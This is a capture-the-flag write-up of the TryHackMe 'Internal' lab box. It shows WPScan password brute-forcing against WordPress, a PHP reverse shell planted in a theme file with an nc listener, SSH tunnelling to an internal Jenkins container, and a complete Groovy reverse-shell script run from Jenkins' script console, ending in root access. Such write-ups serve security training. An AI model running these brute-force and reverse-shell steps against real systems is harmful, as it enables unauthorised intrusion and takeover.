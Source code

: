 ![Internal Screenshot](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/main/Internal%20(THM)/Images/222b3e855f88a482c1267748f76f90e0.jpeg?raw=true)

Internal (Tryhackme)
#Penetration Testing Challenge#

# Enumeration

## Nmap

```jsx
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzpZTvmUlaHPpKH8X2SHMndoS+GsVlbhABHJt4TN/nKUSYeFEHbNzutQnj+DrUEwNMauqaWCY7vNeYguQUXLx4LM5ukMEC8IuJo0rcuKNmlyYrgBlFws3q2956v8urY7/McCFf5IsItQxurCDyfyU/erO7fO02n2iT5k7Bw2UWf8FPvM9/jahisbkA9/FQKou3mbaSANb5nSrPc7p9FbqKs1vGpFopdUTI2dl4OQ3TkQWNXpvaFl0j1ilRynu5zLr6FetD5WWZXAuCNHNmcRo/aPdoX9JXaPKGCcVywqMM/Qy+gSiiIKvmavX6rYlnRFWEp25EifIPuHQ0s8hSXqx5
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMFOI/P6nqicmk78vSNs4l+vk2+BQ0mBxB1KlJJPCYueaUExTH4Cxkqkpo/zJfZ77MHHDL5nnzTW+TO6e4mDMEw=
|   256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMlxubXGh//FE3OqdyitiEwfA2nNdCtdgLfDQxFHPyY0
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

## HTTP (80)

### Dirsearch

```jsx
[05:28:52] 301 -  313B  - /blog  ->  http://10.10.120.129/blog/             
[05:28:53] 200 -    2KB - /blog/wp-login.php                                
[05:28:53] 200 -   18KB - /blog/                                            
[05:29:29] 301 -  319B  - /javascript  ->  http://10.10.120.129/javascript/ 
[05:29:53] 301 -  319B  - /phpmyadmin  ->  http://10.10.120.129/phpmyadmin/ 
[05:29:55] 200 -    3KB - /phpmyadmin/doc/html/index.html                   
[05:29:56] 200 -    3KB - /phpmyadmin/                                      
[05:29:56] 200 -    3KB - /phpmyadmin/index.php
[05:30:08] 403 -  278B  - /server-status/                                   
[05:30:08] 403 -  278B  - /server-status
[05:30:35] 200 -    2KB - /wordpress/wp-login.php                           
[05:30:36] 404 -   51KB - /wordpress/ 
```

### Website functionality

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(3).png)

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(4).png)

- username admin is available
- bruteforce password

## WPScan

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ wpscan --url http://10.10.120.129/blog -e vp,u

┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ wpscan --url http://10.10.120.129/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50
```

```jsx
[!] Valid Combinations Found:
 | Username: admin, Password: my2boys
```

## Post Enumeration

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(5).png)

```jsx
william:arnold147
```

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ ssh william@10.10.120.129
william@10.10.120.129's password: 
Permission denied, please try again.
william@10.10.120.129's password: 
```

- ssh cannot connect

### Reverse Shell

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(6).png)

- we upload php-revershell-php

```jsx
http://internal.thm/blog/wp-content/themes/twentyseventeen/404.ph
```

- tick this link

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ nc -lvnp 53    
listening on [any] 53 ...
connect to [10.4.9.248] from (UNKNOWN) [10.10.120.129] 34560
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:06:33 up 44 min,  0 users,  load average: 0.00, 0.14, 0.88
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

```jsx
$ cd /opt
$ ls -lah
total 16K
drwxr-xr-x  3 root root 4.0K Aug  3  2020 .
drwxr-xr-x 24 root root 4.0K Aug  3  2020 ..
drwx--x--x  4 root root 4.0K Aug  3  2020 containerd
-rw-r--r--  1 root root  138 Aug  3  2020 wp-save.txt
$ cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

- we check cat /etc/passwd
- aubreanna is user
- we ssh login

```jsx
aubreanna@internal:~$ ls
jenkins.txt  snap  user.txt
```

```jsx
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080
```

- the ip may be docker

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ ssh -L 8080:172.17.0.2:8080 aubreanna@10.10.120.129

```

- link connect this docker ip

```jsx
  System information as of Sat Jun  7 10:16:41 UTC 2025

  System load:  0.0               Processes:              112
  Usage of /:   63.8% of 8.79GB   Users logged in:        0
  Memory usage: 37%               IP address for eth0:    10.10.120.129
  Swap usage:   0%                IP address for docker0: 172.17.0.1

  => There is 1 zombie process.
```

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(7).png)

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(8).png)

- fuzz password

```jsx
admin : spongebob
```

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(9).png)

### Jenkins Reverse Shell

- In jenkins, we can get reverse shell from `scripting console`

```jsx
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

- Can find at groovy reverse shell online
- Change string cmd = `“/bin/sh”`

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ nc -lvnp 8044
listening on [any] 8044 ...
connect to [10.4.9.248] from (UNKNOWN) [10.10.120.129] 60380
id
uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)

```

```jsx
cd opt
ls -lah
total 12K
drwxr-xr-x 1 root root 4.0K Aug  3  2020 .
drwxr-xr-x 1 root root 4.0K Aug  3  2020 ..
-rw-r--r-- 1 root root  204 Aug  3  2020 note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ ssh root@10.10.120.129
root@10.10.120.129's password: 
```
